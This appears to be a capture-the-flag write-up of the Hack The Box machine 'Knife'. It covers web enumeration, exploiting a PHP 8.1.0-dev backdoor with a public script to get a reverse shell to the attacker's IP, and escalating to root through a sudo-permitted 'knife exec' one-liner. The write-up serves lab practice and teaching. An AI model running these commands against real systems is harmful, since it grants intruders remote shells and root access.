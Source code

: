 # Knife

# Enumeration

## Nmap

I start with a simple nmap scan. This system is running an Apache web server on port 8- and OpenSSH over port 22. 

![Untitled](Knife%207df145d6970d4502b2c19e173ea1a052/Untitled.png)

Most of these boxes run ssh over port 22 to allow users to ssh into the box once they obtain initial access, in order to provide a more stable shell. Because of this, I will focus on the web server for now.

## Website

I navigate to the website which looks pretty simple, and none of the buttons have been configured to navigate anywhere.

![Untitled](Knife%207df145d6970d4502b2c19e173ea1a052/Untitled%201.png)

I try adding `/index.php` to the end of the URL, and get the same page. This indicates to me that the website is PHP based. I’ll head to dirb to try and find some potential vectors.

## Dirb

The scan comes back with nothing new besides `/server-status` which doesn’t help.

![Untitled](Knife%207df145d6970d4502b2c19e173ea1a052/Untitled%202.png)

With how little I have uncovered at this point, I begin to think this may be a vulnerability with a specific version. The SSH and Apache versions are not vulnerable, and the only other thing I know about this box is that the website runs PHP.

## PHP 8.1

I had neglected to check Wappalyzer when I initially enumerated the website, but looking at it now I find that the PHP is version 8.1.0. 

![Untitled](Knife%207df145d6970d4502b2c19e173ea1a052/Untitled%203.png)

A quick google search reveals that this version of PHP is vulnerable to a backdoor which allows for remote code execution, just what I was looking for!

# Exploitation

## PHP 8.1 Backdoor

The first link I explore is a github POC for a [python script](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py) which exploits the vulnerability to create a reverse shell. I’ll copy the script into a new python file named `rev.py` and give it the proper arguments to send a reverse shell. 

```bash
python3 rev.py http://knife.htb:80/ 10.10.14.2 1234
```

Before I send the payload, I start up a netcat listener on port 1234 to catch the shell. Once I send the payload, I get the shell back almost immediately!

![Untitled](Knife%207df145d6970d4502b2c19e173ea1a052/Untitled%204.png)

It seems I have obtained access as a user named james.

## User Flag

Before I go any further, I navigate to the user’s home directory and grab the user flag.

![Untitled](Knife%207df145d6970d4502b2c19e173ea1a052/Untitled%205.png)

# Privelege Escalation

## Sudo Commands

When trying to escalate priviledges on linux boxes, my first step is always running `sudo -l` to see what commands the user can run as sudo. We get lucky and it looks like this user can run knife as sudo!

![Untitled](Knife%207df145d6970d4502b2c19e173ea1a052/Untitled%206.png)

## Knife

Since I am not familiar with knife, I’ll take a look at [GTFOBins](https://gtfobins.github.io/gtfobins/knife/) and see what I can find. I find that knife has an exec command that executes Ruby code. From previous boxes I know that Ruby can be used to escalate priviledges as well with `sudo ruby -e 'exec "/bin/sh"’` . The code that is actually executed in that case is `exec "/bin/sh"` , so I should be able to do the same here.

```bash
sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
```

Using knife to execute the Ruby code I am given a new shell. Running `whoami` reveals I have obtained root access!

![Untitled](Knife%207df145d6970d4502b2c19e173ea1a052/Untitled%207.png)

## Root Flag

With root access I can grab the root flag from the root directory!

![Untitled](Knife%207df145d6970d4502b2c19e173ea1a052/Untitled%208.png)